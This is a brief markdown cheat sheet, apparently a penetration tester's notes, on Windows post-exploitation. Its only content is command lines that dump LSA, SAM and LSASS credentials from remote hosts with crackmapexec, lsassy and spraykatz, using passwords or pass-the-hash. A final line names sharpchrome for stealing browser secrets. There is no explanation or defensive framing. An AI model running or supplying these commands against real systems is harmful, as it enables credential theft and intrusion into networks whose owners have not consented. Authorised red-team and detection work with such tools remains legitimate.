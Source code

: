 # Post-Ex Windows

## **Dump secrets**

LSA & SAM

```bash
crackmapexec smb perim_up.txt -u '<user>' -d '<domain>' -p '<pass>' --lsa
crackmapexec smb <host_file> -u <user> -d <domain> -H <hash> --lsa

lsassy -d '.' -u 'Administrateur' -H '<hash>' <ip>
lsassy -d <domain> -u <user> -p <pass> <ip>

./spraykatz.py -u <user> -p <password> -t <ip>
```

Browser secrets

```bash
sharpchrome.exe
```